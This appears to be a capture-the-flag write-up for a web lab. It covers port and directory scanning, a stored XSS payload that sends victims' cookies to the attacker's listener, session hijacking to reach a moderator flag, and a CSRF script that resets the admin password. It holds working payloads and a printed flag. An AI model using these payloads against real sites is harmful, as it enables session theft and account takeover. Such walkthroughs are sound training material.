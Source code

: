#medium 

## 0. **Lab infos**

**Difficulty :** Medium
**Name :** Whats Your Name?
**IP** : 10.10.219.254
**Objectives :** Get the accessing the moderator account flag and the admin panel flag
**OS :** ?

##### **Conclusion**
**Time :** 
	**Start :** 25.03.2025 18:55
	**Break at/to :** 25.03.2025 19:14 / 25.03.2025 20:04
	**Finish :** 
**Satisfaction :**  
### 1. **Reconnaissance

First #nmap scan

```BASH
map -A -p- -v 10.10.219.254
```


Output :

```BASH
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

It's a web app.

We will analyse the web app with #burpsuite 

On the port 80 we have this sitemap and we have the possibilitie to pre-register.
![[Pasted image 20250325190405.png]]

We can try to register.
One we register we have a login page but when we want to login it's say "User not verified" but we also have this :
![[Pasted image 20250325191031.png]]

But the subdomain doesn't work.

When we enter admin instead of Bobinette it's said "Invalid email or password".

We find some pages with #gobuster 

Output :

```BASH
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 1797]
/login.php            (Status: 200) [Size: 1785]
/register.php         (Status: 200) [Size: 2188]
/admin.php            (Status: 403) [Size: 0]
/upload.php           (Status: 403) [Size: 0]
/logout.php           (Status: 200) [Size: 154]
/mod.php              (Status: 403) [Size: 0]
/dashboard.php        (Status: 403) [Size: 0]
```



On the port 8081 we have nothin execpt a message who let know us that there is a login.php page.

![[Pasted image 20250325190550.png]]

We find some pages with #gobuster 

Output :

```BASH
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/assets               (Status: 301) [Size: 320] [--> http://worldwap.thm:8081/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/phpmyadmin/]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 279]
```

## 2. **Weaponization

```JS
<script>  
var img = new Image();  
img.src = 'http://10.10.235.199:4444/stealcookies?'+ document.cookie;  
</script>
```

## 3. **Delivery

![[Pasted image 20250325203616.png]]

We enter this payloads for see if we can steal a user cookie. With an #XSS

## 4. **Exploitation

With our exploit with the #XSS doesn't work.
But after a few second a PHPSESSID just appear.

```BASH
root@ip-10-10-235-199:~# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.10.53.234 - - [25/Mar/2025 19:38:03] code 404, message File not found
10.10.53.234 - - [25/Mar/2025 19:38:03] "GET /stealcookies?PHPSESSID=16qkgn0k0sehun9gjmsiiedthj HTTP/1.1" 404 -
```

And by changing ou PHPSESSID and go to `dashboard.php` it's show this :
![[Pasted image 20250325204238.png]]

On the port 8081 if we also change the PHPSESSID we can have the first flag :
![[Pasted image 20250325205110.png]]

```FLAG
ModP@wnEd
```


On the `chat.php` page we can send an #XSS and it's working. So we send the same payload and we got an PHPSESSID but it's change nothing. But we know one thing, i'ts the admin bot and he probabely open the message one day. So we send the payload of CSRF task7 to the bot :

```JS
<script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', "http" + "://worldwap.thm:8081/change_password.php", true);
        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.onreadystatechange = function () {
            if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                alert("Action executed!");
            }
        };
        xhr.send('action=execute&new_password=1234');
    </script>
```

So now we juste need to logout and log as admin with `admin:1234`
## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives